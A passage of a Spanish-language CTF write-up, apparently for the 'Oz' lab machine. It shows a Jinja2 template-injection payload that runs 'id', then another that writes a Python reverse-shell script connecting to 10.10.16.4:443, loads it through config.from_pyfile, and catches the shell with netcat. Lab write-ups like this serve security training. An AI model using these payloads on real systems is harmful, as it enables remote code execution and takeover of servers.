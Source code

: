 ![](/assets/images/Oz/image7.png)

Usare el siguiente payload para ver si tengo RCE.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


La respuesta es la siguiente:

![](/assets/images/Oz/image8.png)

Me temo que estoy en un contenedor... Voy a intentar establecerme una revshell.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/config.cfg', 'w').write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') }}
```

```python
{{ config.from_pyfile('/tmp/config.cfg') }}
```

### Enumeración de sistema


Si miramos nuestro listener tenemos una shell.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.10.96: inverse host lookup failed: Unknown host
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.96] 57800
/bin/sh: can't access tty; job control turned off
/app #
```
